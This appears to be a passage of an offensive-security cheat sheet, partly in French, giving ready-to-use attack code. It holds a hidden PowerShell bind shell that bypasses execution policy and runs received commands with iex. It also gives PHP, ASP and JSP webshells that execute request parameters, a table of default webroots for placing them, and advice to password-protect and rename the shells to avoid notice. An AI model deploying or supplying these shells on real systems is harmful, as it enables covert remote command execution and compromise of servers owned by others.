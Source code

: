 ### POWERSHELL

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```


# **WEBSHELLS**

Toujours protéger avec un mot de passe / randomiser le nom du webshell (hash md5 par ex)

Weevely

|Web Server|Default Webroot|
|---|---|
|`Apache`|/var/www/html/|
|`Nginx`|/usr/local/nginx/html/|
|`IIS`|c:\inetpub\wwwroot\|
|`XAMPP`|C:\xampp\htdocs\|
## PHP

```php
<?php system($_REQUEST['bb58021f870b5f85c6c24120540de43f']); ?>
```

```php
<?php
    if(isset($_GET['cmd']))
    {
    system($_GET['cmd']);
    }
?>
```

## ASP

```asp
<% eval request('bb58021f870b5f85c6c24120540de43f') %>
```

### JSP

```jsp
<% Runtime.getRuntime().exec(request.getParameter("bb58021f870b5f85c6c24120540de43f")); %>
```
